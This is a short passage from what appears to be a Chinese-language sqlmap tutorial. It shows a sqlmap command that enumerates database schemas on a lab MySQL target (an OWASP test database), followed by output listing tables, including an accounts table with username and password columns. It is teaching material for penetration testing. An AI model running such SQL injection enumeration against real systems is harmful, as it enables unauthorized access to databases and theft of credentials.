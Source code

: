 MySQL例子：
```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --schema --batch --exclude-sysdbs
[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```
获取表中数据个数
